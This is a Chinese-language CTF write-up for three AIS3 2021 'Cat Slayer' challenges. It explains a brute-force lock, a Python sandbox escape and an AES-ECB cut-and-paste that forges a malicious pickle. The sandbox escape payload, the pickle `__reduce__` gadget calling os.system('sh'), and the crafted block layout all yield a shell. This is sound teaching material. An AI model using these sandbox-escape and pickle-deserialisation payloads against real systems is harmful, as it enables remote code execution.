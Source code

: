 # AIS3 2021 Pre-Exam [Misc]

## Cat Slayer <sup>Fake</sup> | Nekogoroshi

- Category: Welcome
- Difficulty: Welcome
- Solves: 315/328
- Keywords: Welcome

玩梗題(X)，純粹回想到之前看寒蟬的時候有一個看起來很適合出水題的場景就出了，讚

反正就是密碼一共 13 個數字，只要一輸錯一個字就會鎖死，因此可以針對單一個字開始依序爆搜，最多只要猜 `(13*10)=130` 次就能解開了。

教學影片：https://youtu.be/2b3Oqo13-r0?t=1296

### Solution 0x01

手解。不到 10 分鐘吧

### Solution 0x02

寫腳本解。用 expect 或 pwntools 還是什麼隨便你，但寫+跑的時間應該不會比手爆還快 XD


## Cat Slayer | Online Edition

- Category: Misc
- Difficulty: Easy
- Solves: 12/328
- Keywords: Game, Python Sandbox

原本是希望大家認真打怪，但由於 code 寫太爛寫出了一個輸入負數值洗錢的 bug，但也沒差，反正蠻契合 CTF 主題的 XD

### Overview

一個附加了遊戲屬性的 Python sandbox 題。

玩家可以透過遊戲中賺取的錢解鎖 payload 可用字元，但解鎖的同時也會減少可用 payload 長度；然而，等級達到十等並轉生之後便能解除 payload 長度的限制，並且可以獲得 `"'.` 這三個重要字元。

其中使用者輸入的 payload (spell) 會被丟到一個 sandbox 執行，它先刪除了 `__import__`, `exec`, `eval` 這些內建函數，並會用 `_eval(spell, {})` 執行它。

另外此遊戲還有玩家對戰（殺人）機制，被殺的人帳號會**永久封鎖**。

### Solution

刷錢的部分我就不提了，直接講怎麼 get shell 吧。我的最低練度預期解是 lv.3 無轉生並解鎖 14 個字元（詛咒）即可 RCE，理論上是一個手動正常遊玩就可以刷到的等級（？

- 需解除的詛咒：`{'t', 'i', 'p', 'g', '(', 'r', ')', 'e', 'l', 'u', 'o', 'd', 'n', 'a'}`

- Payload
    ```python
    [g:=getattr,i:=input,g(g(__loader__,i())(i()),i())(i())]
    ```

- 搭配以下 stdin 輸入
    ```
    load_module
    os
    system
    sh
    ```

翻譯成白話文就是：`__loader__.load_module('os').system('sh')` 而已

由於沒有轉生，還沒有 `.` 可以用，於是就用 `getattr(aaa, 'bbb')` 來取代 `aaa.bbb`；並用 `input()` 來讀入使用者輸入產生字串，以避免使用到 `'"`（還能藉此減少使用的字元呢）

當然你要轉生+刷滿詛咒，再用超老梗的 `[].__class__.__base__.__subclasses__()[xx]...` 找到 `<class 'os._wrap_close'>` 直接串下去也是可以啦，這題定位本來就不是難題（？

--- 

由於這題不是難題，而且肯努力刷的話是可以用很簡單的方法解掉的，因此我的原先預期上是先解的人要負責努力殺新來的玩家，也就是說**越晚解題的難度會越高**，就算知道解法也不太能輕鬆拿到 flag，但一開始大家好像都沒做到，直到最後一天才開始有人認真殺人 QQ

## Cat Slayer | Cloud Edition

- Category: Misc
- Difficulty: Medium
- Solves: 1/328
- Keywords: Pickle, ECB Cut & Paste

我承認這題以 pre-exam 來說是偏難的題目 ><

### Solution

Crypto 的部分樸實無華，只是經典的 AES ECB cut & paste，大概是拿 ECB 去 Google 會發現的前幾個攻擊手法。那我們要 cut & paste 什麼東西呢？就是用來存檔讀檔的 pickle —— pickle 如果可以任意控制，那就能輕鬆達成 RCE 了，這邊給一個最常見的範例。

```python
class Exploit():
    def __reduce__(self):
        return (__import__('os').system, ('sh', ))

pkl = pickle.dumps(Exploit())
pickle.loads()
sh$ ...
```

首先要釐清的是哪些是使用者可控的部分呢？最明顯的肯定是名字了，可以自由的輸入任意的字串，那直覺上來說，是不是只要把字串設定成 `pickle.dumps(Exploit())` 的內容就好了呢？預設來說，ECB 加密（block size = 16）後的每個 block 會這樣分佈，其中最左邊那排代表第 n 個 block：
```python
0 b'\x80\x04\x95`\x00\x00\x00\x00\x00\x00\x00\x8c\x08__m'
1 b'ain__\x94\x8c\tCatSlaye'
2 b'r\x94\x93\x94)\x81\x94}\x94(\x8c\x08user'
# 以下 X, Y 皆代表 `pickle.dumps(CatSlayer()) 時 username 所在處
3 b'name\x94\x8c\x0cXXXXXXXXX'
4 b 'YYY\x94\x8c\x02hp\x94M\xe8\x03\x8c\x04at'
5 b'tk\x94K\n\x8c\x04defs\x94K\x00\x8c\x05'
6 b'money\x94K\x00ub.'
```
這樣看起來，把 YYY 開始的部分都換成 `pickle.dumps(Exploit())` ，然後移掉前面 0~3 個 block 就完成了吧？（也就是說，name 輸入為 `"XXXXXXXXX" + pickle.dumps(Exploit())`）

沒那麼簡單，先來看一下 pickle dump 出來的東西是啥：
```python
b'\x80\x04\x95\x1d\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x02sh\x94\x85\x94R\x94.'
```
對於普通字串而言，如果 `0x7f` <= char <= `0xbf`，則該 char 在 `pickle.dumps` 後前面會被多塞一個 `\xc2`，例如：`\x98` 會變 `\xc2\x98`。你可能會想說，那我避開這個範圍的字元不就行了？並沒有。如果你的 pickle 不需要用到這個範圍的字元卻想 import module 的話，全部都需要用到換行字元ㄛ，`input` 可不吃這種東西

其實我們只要把 `\xc2` 留在前一個 block 廢棄掉就行，padding 有很多方法可以塞，其中最萬用的是利用 `(0` 當 padding 解決（`(0` 代表 push mark 之後再 pop，等於什麼事情都沒做）

有了這個思路之後就能來構造輸入了：

首先，把前面 `pickle.dumps(Exploit())` 的結果簡化移除不必要的東西後，大概剩這樣
```python
b'\x80\x04U\x02osU\x06system\x93U\x02sh\x85R.'

Disassemble:
    0: \x80 PROTO      4
    2: U    SHORT_BINSTRING 'os'
    6: U    SHORT_BINSTRING 'system'
   14: \x93 STACK_GLOBAL
   15: U    SHORT_BINSTRING 'sh'
   19: \x85 TUPLE1
   20: R    REDUCE
   21: .    STOP
```
如此一來只剩下三個字元 > 0x7f 了，接下來構造一下要輸入的 name：

```python
# 把真正要用的 exploit 擠到下一個 block。注意：底下的 \x80 會變 \xc2\x80，要把 \xc2 留在上面
'AAAAAAAA' + 
'\x80\x04U\x02osU\x06system' + '(0' +  # [[BLOCK1]]，此處用 `(0` 當 padding
'AAAAAAAAAAAAAAA' + # 擠掉一整個 block，並把 \xc2 留在此 block
'\x93U\x0dsh #AAAAAAAAA' +  # [[BLOCK2]]
'AAAAAAAAAAAAAAA' + # 擠掉一整個 block，並把 \xc2 留在此 block
'\x85R.'    # [[BLOCK3]]
```
最後，ECB 加密的 block 會這樣分佈：
```python
0 b'\x80\x04\x95\xa0\x00\x00\x00\x00\x00\x00\x00\x8c\x08__m'
1 b'ain__\x94\x8c\tCatSlaye'
2 b'r\x94\x93\x94)\x81\x94}\x94(\x8c\x08user'
3 b'name\x94\x8cLAAAAAAAA\xc2' # name 從這邊的 AAAAAAAA 開始
4 b'\x80\x04U\x02osU\x06system(0'  # [[BLOCK1]]
5 b'AAAAAAAAAAAAAAA\xc2'
6 b'\x93U\rsh #AAAAAAAAA' # [[BLOCK2]]
7 b'AAAAAAAAAAAAAAA\xc2'
8 b'\x85R.\x94\x8c\x02hp\x94M\xe8\x03\x8c\x04at' # [[BLOCK3]]; name 到這邊的 `\x85R.` 結束
9 b'tk\x94K\n\x8c\x04defs\x94K\x00\x8c\x05'
0 b'money\x94K\x00ub.'
```
可以看得出來，我們要的 exploit 就在加密後的第 4, 6, 8 個 block。

此時只要先把玩家名稱設為上述的惡意 name，再去 save game 拿出加密後的資料，並取出第 4, 6, 8 個 block 拼接起來，接著去 load game 裏輸入這串內容就能 get shell 了。

詳情請見 [exploit.py](cat-slayer-cloud/exploit.py)